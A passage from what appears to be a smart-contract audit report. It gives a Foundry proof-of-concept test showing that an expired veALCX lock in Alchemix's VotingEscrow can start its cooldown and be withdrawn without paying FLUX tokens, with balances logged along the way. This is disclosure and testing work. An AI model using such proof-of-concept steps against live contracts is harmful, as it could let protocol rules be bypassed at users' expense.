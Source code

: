 ## Proof Of Concept

**Steps to Run using Foundry:**
- Paste following foundry code in `src/test/VotingEscrow.t.sol`
- Run using `FOUNDRY_PROFILE=default forge test --fork-url $FORK_URL --fork-block-number 17133822 --match-contract VotingEscrowTest --match-test testCooldownWithoutPayingFlux -vv`

```solidity
// Start cool down period without paying any flux tokens
function testCooldownWithoutPayingFlux() public {
    hevm.startPrank(admin);

    uint256 tokenId = veALCX.createLock(TOKEN_1, FIVE_WEEKS, false);

    uint256 bptBalanceBefore = IERC20(bpt).balanceOf(admin);

    uint256 fluxBalanceBefore = IERC20(flux).balanceOf(admin);
    uint256 alcxBalanceBefore = IERC20(alcx).balanceOf(admin);

    console.log("\nBefore:");
    console.log("bpt balance:", bptBalanceBefore);
    console.log("flux balance:", fluxBalanceBefore);
    console.log("alcx balance:", alcxBalanceBefore);

    hevm.expectRevert(abi.encodePacked("Cooldown period has not started"));
    veALCX.withdraw(tokenId);

    voter.reset(tokenId);

    hevm.warp(newEpoch());

    voter.distribute();

    uint256 unclaimedAlcx = distributor.claimable(tokenId);
    uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId);
    console.log("unclaimedAlcx:", unclaimedAlcx);
    console.log("unclaimedFlux", unclaimedFlux);

    hevm.warp(veALCX.lockEnd(tokenId));
    console.log("\nLock state:");
    console.log("veALCX.lockEnd(tokenId):", veALCX.lockEnd(tokenId));
    console.log("block.timestamp:", block.timestamp);
    console.log("Lock Expired (veALCX.lockEnd(tokenId) < block.timestamp) ?: ", veALCX.lockEnd(tokenId) < block.timestamp);
    
    // Start cooldown once lock is expired
    veALCX.startCooldown(tokenId);

    hevm.expectRevert(abi.encodePacked("Cooldown period in progress"));
    veALCX.withdraw(tokenId);

    hevm.warp(newEpoch());

    veALCX.withdraw(tokenId);

    uint256 bptBalanceAfter = IERC20(bpt).balanceOf(admin);
    uint256 fluxBalanceAfter = IERC20(flux).balanceOf(admin);
    uint256 alcxBalanceAfter = IERC20(alcx).balanceOf(admin);

    console.log("\nAfter:");
    console.log("bpt balance:", bptBalanceAfter);
    console.log("flux balance:", fluxBalanceAfter);
    console.log("alcx balance:", alcxBalanceAfter);

```